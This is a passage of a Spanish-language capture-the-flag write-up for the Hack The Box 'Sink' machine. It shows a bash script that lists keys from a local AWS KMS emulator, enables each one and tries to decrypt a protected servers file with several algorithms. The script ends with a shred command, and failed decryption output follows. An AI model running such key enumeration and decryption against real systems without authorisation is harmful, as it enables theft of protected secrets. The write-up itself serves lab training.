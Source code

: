 ```bash
shred -zun 10 $file_with_keys
```

Pero no obtenemos nada...

![313bash_davidSH_valkeria_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_valkeria_fail.png)

Probemos a jugar con los métodos de encriptación:

```html
> Specifies the encryption algorithm that will be used to decrypt the ciphertext.
>> Possible values:
>>
>>    SYMMETRIC_DEFAULT
>>    RSAES_OAEP_SHA_1
>>    RSAES_OAEP_SHA_256
```

Entonces adecuando esto a nuestro script quedaría:

```bash
#!/bin/bash

# Generamos el archivo con las keys
aws --endpoint-url=http://localhost:4566 kms list-keys | grep KeyId | cut -d '"' -f 4 > keys.tmp
file_with_keys=./keys.tmp
types_algorithms=( SYMMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256 )

while read keyId; do
    echo -e "\n[+] Llave: $keyId:"
    for algorithm in "${types_algorithms[@]}"; do # Tomamos cada algoritmo del array y probamos
        echo -ne "[*] Algoritmo: $algorithm"

        # Habilitamos la llave
        aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "$keyId" 2>/dev/null

        # Desencriptamos el archivo servers.enc
        aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "$keyId" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --encryption-algorithm $algorithm
    done
done < $file_with_keys

shred -zun 10 $file_with_keys
```

Ejecutamos yyyy:

```bash
david@sink:/dev/shm/testest$ ./valkeria.sh

[+] Llave: 0b539917-5eff-45b2-9fa1-e13f0d2c42ac:
[*] Algoritmo: SYMMETRIC_DEFAULT

An error occurred (InvalidCiphertextException) when calling the Decrypt operation: 
[*] Algoritmo: RSAES_OAEP_SHA_1

An error occurred (InvalidCiphertextException) when calling the Decrypt operation:
...
```
